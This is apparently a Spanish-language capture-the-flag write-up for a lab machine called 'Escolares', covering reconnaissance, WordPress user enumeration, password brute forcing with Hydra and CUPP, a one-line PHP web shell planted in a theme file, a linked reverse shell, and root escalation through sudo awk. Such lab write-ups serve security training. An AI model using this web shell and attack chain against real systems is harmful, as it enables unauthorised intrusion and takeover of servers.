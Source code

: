 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 09/06/2024'
---
```


# Escolares

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre una universidad de ciberseguridad.

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un comentario que parece ser relevante ya que la información del personal académico está en el directorio `/profesores.html` por lo que accedemos a él.

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de **Luis** ya que pone que es el **admin** de Wordpress.

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Hemos localizado la ruta que necesitábamos, ahora utilizaremos **WPscan** para identificar la versión específica de WordPress y enumerar los usuarios, con el fin de confirmar los hallazgos anteriores.

```bash
wpscan --url http://172.17.0.2/wordpress/ -e u
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado la existencia del usuario **luisillo** en el WordPress. Ahora, procederemos a utilizar Hydra para realizar un ataque de fuerza bruta contra este usuario

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l luisillo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. No tenemos suerte por lo que probaremos otra cosa.

Para obtener la contraseña del usuario, utilizaremos la herramienta **CUPP** (Common User Passwords Profiler), que no viene preinstalada en Kali Linux. CUPP está diseñada para generar listas de contraseñas personalizadas basadas en la información específica del usuario objetivo. Esto es útil porque muchos usuarios suelen crear contraseñas utilizando datos personales, como su nombre, fecha de nacimiento o el nombre de su mascota, en lugar de contraseñas genéricas.

Una vez que hemos instalado CUPP, ejecutamos el siguiente comando en la terminal para iniciarlo en modo interactivo:

```bash
cupp -i
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Con la lista de contraseñas generada, estamos preparados para llevar a cabo el ataque de fuerza bruta y tratar de obtener credenciales válidas.

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

La contraseña del usuario **luisillo** es **Luis1981**. Probamos las credenciales en el formulario del Wordpress.

> Nota: si nos da error [http://172.17.0.2/wordpress/wp-login.php](http://172.17.0.2/wordpress/wp-login.php) se debe añadir el dominio a /etc/hosts es decir, añadir 172.17.0.2 escolares.dl y reiniciar la página.

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Nos deja entrar cuando quitamos el bloqueo de las cookies.

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Accede al archivo `index.php` en la ruta `wp-content/themes/twentytwentytwo/` de tu instalación de WordPress y modifica el archivo con el siguiente código PHP:

```markdown
<?php echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>" ?>
```

Luego, abre tu navegador y accede a la siguiente URL para ejecutar comandos:

```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami
```

Al ejecutar el comando `whoami`, deberías ver el resultado en la página, que indicará el usuario bajo el cual se está ejecutando el servidor web que es `www-data`. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse **shell** utilizando la página web por lo que subimos este archivo PHP [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/reverse.php
```

Después de ejecutar el comando codificado en la URL, la página puede quedarse cargando indefinidamente. Esto indica que la solicitud está en proceso, pero no necesariamente significa que ha fallado.

Nos ponemos en escucha por el puerto 443:

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root** ya que somos www-data como se mostraba anteriormente.

Para facilitar la interacción con la **shell**, migraremos a una sesión de **bash** más funcional. Esto es necesario porque en la **shell** actual no podemos utilizar las teclas de flecha ni acceder al historial de comandos. Ejecutando el siguiente comando, iniciamos una nueva sesión de bash sin registrar la actividad en ningún archivo:

```bash
script /dev/null -c bash
```

Estamos ejecutando comandos como el usuario `www-data`, lo que significa que nuestros permisos son limitados. Sin embargo, podemos intentar explorar el directorio `/home` para ver si encontramos algo interesante. Al revisar el contenido de `/home`, además de los directorios de usuarios, encontramos un archivo llamado `secret.txt`. Este archivo contiene la contraseña de un usuario llamado **Luisillo**, lo que podría ser útil para obtener acceso adicional.&#x20;

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

Nos conectamos al sistema como el usuario **Luisillo**. Ahora que tenemos acceso como un usuario normal, navegamos a su carpeta personal y listamos el contenido, pero no encontramos nada relevante. Sin embargo, al ejecutar `sudo -l`, descubrimos que podemos elevar privilegios utilizando el binario `awk`.

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

Visitamos la página de **GFTOBins** para buscar una forma de escalar privilegios usando el binario `awk`. En la sección correspondiente a `awk` bajo el contexto de `sudo`, encontramos el comando que nos permitirá abusar de este binario para obtener privilegios de **root**. Puedes revisar los detalles en el siguiente enlace:

[GFTOBins - awk (sudo)](https://gtfobins.github.io/gtfobins/awk/#sudo)

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

